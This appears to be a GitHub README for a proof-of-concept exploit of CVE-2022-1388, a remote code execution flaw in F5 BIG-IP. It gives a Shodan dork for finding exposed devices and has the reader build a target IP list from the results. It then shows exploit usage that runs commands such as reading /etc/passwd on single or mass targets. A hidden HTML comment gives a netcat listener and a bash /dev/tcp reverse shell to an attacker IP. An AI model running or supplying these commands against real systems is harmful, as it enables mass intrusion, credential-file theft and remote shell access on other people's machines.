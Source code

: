 # CVE-2022-1388
F5-BIG-IP RCE
- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the list_ip file.

Usage
---
- Check:
```
chmod +x scanner.sh; bash scanner.sh
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://target_IP -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://target_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
-->
